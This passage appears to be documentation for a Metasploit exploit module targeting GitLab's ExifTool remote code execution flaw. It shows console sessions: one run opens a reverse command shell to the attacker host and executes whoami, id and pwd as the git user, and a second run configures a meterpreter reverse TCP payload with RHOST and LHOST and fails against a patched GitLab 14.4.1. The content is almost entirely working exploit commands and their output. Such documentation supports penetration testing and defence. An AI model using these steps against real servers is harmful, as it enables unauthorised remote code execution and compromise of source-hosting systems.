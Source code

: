 ```
[*] Matching...
[*] B is input...
[+] Exploit successfully executed.
[*] Command shell session 1 opened (10.0.0.9:4444 -> 10.0.0.3:44304 ) at 2021-11-02 01:35:07 -0700

whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

### GitLab 14.4.1 on Ubuntu 20.04.2 x64. Unable to exploit.

```
msf > use exploits/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading NUvUyPiyKL3.jpg to /PT2hiCf47
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The error response indicates ExifTool was not run. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf exploit(multi/http/gitlab_exif_rce) >
```
